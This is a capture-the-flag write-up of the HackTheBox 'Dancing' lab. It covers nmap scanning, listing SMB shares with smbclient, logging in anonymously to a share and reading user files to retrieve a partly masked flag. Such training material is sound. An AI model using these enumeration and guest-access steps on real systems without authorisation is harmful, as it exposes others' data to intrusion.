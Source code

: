 +++
date = 2024-07-03
title = "HTB Dancing WriteUp"
slug = ""
author = ["R4NC0X"]
description = "HackThebox 'Dancing' WriteUp"
draft = false
tags = [
    "HTB",
    "machine",
    "Windows",
    "Protocols",
    "Smb",
    "Reconnaissance",
    "Anonymous/guest access",
]
+++

# Dancing -- HacktheBox

- System: _Windows_
- Difficulty: _Very Easy_
- Plataform: _HacktheBox_

!['Dancing' Avatar](/images/Dancing/Dancing.png)

___

## Summary

"Dancing" is a "Very Easy" difficulty machine from the `HackTheBox` platform. Dancing is part of the `Starting Point` laboratories.

To complete the machine, run nmap to perform a port scan to the IP address `10.129.22.109`, the machine proposes the use of a service that is `SMB` [Server Message Block] so I knew that my scan would have to focus on port `445`. Since I knew which service is open using the command `smbclient -L [IpAddress]`, I listed the machine's Actions and proceeded to try to enter each of them with the command `smbclient -N \\\\10.129.22.109\ \[Sharename]`, the only action I could log into without a password was `WorkShares`. Once inside, ready with `dir` the contents and I find that there are two directories `Amy.J` and `James.P`, I entered the `Amy.J` directory using the `cd` command, I proceeded to review its contents and I did not find the flag so I went back to the main directory using `cd ..` and proceeded to enter the `James.P` directory by doing `dir` I found a file `flag.txt`, using the command `more flag.txt` ready the content finding the flag and solving the machine.

___

## Procedure

Start by solving the Machine Tasks, some of the tasks are clues to solve the machine.

- **Task 1 What does the three-letter acronym SMB mean?**

`server message block`

- **Task 2 What port does SMB operate on?**

`445`

- **Task 3 What is the service name for port 445 that appeared in our Nmap scan?**

`microsoft-ds`

- **Task 4 What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the actions available in Dancing?**

`-L`

- **Task 5 How many actions are there in Dancing?**

`4`

- **Task 6 What is the name of the share that we can finally access with a blank password?**

`WorkShares`

- **Task 7 What is the command that we can use within the SMB shell to download the files we find?**

`get`

- **Send Root Flag**

To find the flag perform a port scan to the machine's IP address using the `nmap` tool.

![Anexo1](/images/Dancing/Anexo1.png)

How to scan port `445` of the machine only shows me the data of the `microsoft-ds` service.

![Anexo2](/images/Dancing/Anexo2.png)

Using the command `smbclient -L [IpAddress]` list all the machine's Actions to see which of the 4 shown can be accessed without a password.

![Anexo3](/images/Dancing/Anexo3.png)

Since I found the Action that allows me to log in without a password, use the command `smbclient -N \\\\10.129.22.109\\WorkShares`.

![Anexo4](/images/Dancing/Anexo4.png)

Once inside I proceed to list all the contents of the main directory with the `dir` command, finding that there are two directories.

``` bash
smb: \> dir
  .                                   D        0  Mon Mar 29 03:22:01 2021
  ..                                  D        0  Mon Mar 29 03:22:01 2021
  Amy.J                               D        0  Mon Mar 29 04:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021

		5114111 blocks of size 4096. 1753536 blocks available
smb: \> 

```
First I enter the `Amy.J` directory with the `cd` command and proceed to list all the contents found in it.

``` bash
smb: \> cd Amy.J
smb: \Amy.J\> dir
  .                                   D        0  Mon Mar 29 04:08:24 2021
  ..                                  D        0  Mon Mar 29 04:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 06:00:37 2021

		5114111 blocks of size 4096. 1753520 blocks available
smb: \Amy.J\> 

```
I find a file called `worknotes.txt` and with the `more` command I read the contents of the file.

``` bash
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing 

```
The `worknotes.txt` file did not contain the flag of this machine so with the `cd ..` command I returned to the main directory and then entered the `James.P` directory and ready the contents of that directory.

``` bash
getting file \Amy.J\worknotes.txt of size 94 as /tmp/smbmore.Sda4KS (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P
smb: \James.P\> dir
  .                                   D        0  Thu Jun  3 03:38:03 2021
  ..                                  D        0  Thu Jun  3 03:38:03 2021
  flag.txt                            A       32  Mon Mar 29 04:26:57 2021

		5114111 blocks of size 4096. 1753646 blocks available
smb: \James.P\> 

```
Notice that there is a file called `flag.txt` so feel free to view its contents to find the flag.

``` bash
5f61c10dffbc77a704d76016a2******

```
I enter the flag in the last Task of the machine `Send Flag`.

Once the flag was sent, a message came out saying `Dancing has been Pwned`.

![Anexo5](/images/Dancing/Anexo5.png)
___

## Completed Machine :)




